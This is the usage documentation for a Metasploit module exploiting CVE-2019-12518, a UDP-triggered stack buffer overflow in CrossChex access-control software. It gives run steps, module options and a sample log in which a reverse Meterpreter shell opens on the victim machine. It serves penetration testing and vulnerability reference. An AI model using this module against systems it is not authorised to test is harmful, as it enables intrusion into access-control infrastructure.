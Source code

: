 ## Introduction

CrossChex is a personnel identity verification, access control, and time
attendance management system compatible with Windows 7,8 & 10. It uses
UDP broadcasts to identify and connect with Access Control devices on a
network. The code used to handle a response from an Access Control
device is vulnerable to a Stack Buffer Overflow attack on CrossChex
versions `Crosschex Standard x86 <= V4.3.12`. Tracked as CVE-2019-12518,
and as such permits arbitrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes
to be executed as a result of the exploit are sent in a single UDP
packet as a response to the CrossChex broadcast. As both the exploit and
the payload must be contained inside a single UDP packet, an exploit has
a maximum size of `8947 Characters`.

This module exploits CVE-2019-12518 by listening for a CrossChex "new
device" broadcast for a given number of seconds (`TIMEOUT`). It then
responds with a UDP packet containing shellcode for both the Buffer
Overflow exploit and the attacker's chosen payload. The `Space` payload
option ensures no payload of too large a size is used to ensure
successful exploitation. If a broadcast is not detected within the given
`TIMEOUT`, the module exits with a warning.

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options

As above.

## Scenarios

```
msf5 exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...
```

## References

1. <https://cvedetails.com/cve/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>
